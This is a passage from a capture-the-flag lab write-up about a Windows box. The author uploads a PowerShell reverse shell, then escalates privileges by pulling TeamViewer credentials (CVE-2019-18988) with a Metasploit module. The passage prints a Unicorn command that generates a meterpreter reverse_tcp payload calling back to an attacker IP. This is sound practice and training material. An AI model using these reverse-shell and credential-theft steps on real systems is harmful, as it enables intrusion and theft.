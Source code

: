 Perfect - we have code execution on the box. Rather than try to do enumeration via chppppp's Python script, I'd like to use it to establish a foothold and get a reverse shell. The tricky part is that we have execution via Powershell, and a lot of upload tricks I normally try didn't seem to work quite right (or at all). Instead I opted to use a trick from [egre55/Nikhil Mittal](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) and drop that Powershell reverse shell into a .ps1 that I then uploaded onto the box:

![Downloading our reverse shell](/assets/images/remote/revshell_download.png)

Once we've got our reverse shell on the box, the rest is as easy as hacking the Gibson. Just execute the file and you *should* see a reverse shell pop into your netcat listener from the `iis apppool\defaultapppool` user. Our reward is a shiny user.txt flag, located in `C:\Users\Public\user.txt`.

## >> PRIVILEGE ESCALATION

So if you do the usual enumeration after establishing a foothold, you'll realize there's an interesting program installed in `Program Files (x86)`. It's an infamous one, known for its usage in scams globally - `TeamViewer`. This time, however, it's being used as an autologin - and [this post on CVE-2019-18988 by WhyNotSecurity](https://whynotsecurity.com/blog/teamviewer/) outlines how they found it, and where the juicy bits are. It's definitely worth the read.

For our case, we're going to use the metasploit `post/windows/gather/credentials/teamviewer_passwords` module that WhyNotSecurity published later down the line. In order to do so, however, we will need to migrate over to a meterpreter shell - for that we'll use [a fantastic tool named Unicorn](https://github.com/trustedsec/unicorn
). We'll be making a payload [similar to how it is shown in this article](https://medium.com/@dominicvincentdalcerro/unicorn-low-priv-shell-to-meterpreter-session-3ec762735f1d
) To start using unicorn, just run `python unicorn.py` after cloning the repository - it'll spit out a great help page with fashionable ASCII art to boot. We'll run the following to get what we want:
```
python unicorn.py windows/meterpreter/reverse_tcp 10.10.14.27 12345
```
Upon completion, Unicorn spits out 2 files - `powershell_attack.txt` and a Metasploit .rc file. We care about the second part of the powershell_attack.txt file - copy everything as shown into `unicorn.html`:

![Powershell payload for us](/assets/images/remote/unicorn_powershell_attack_txt.png)
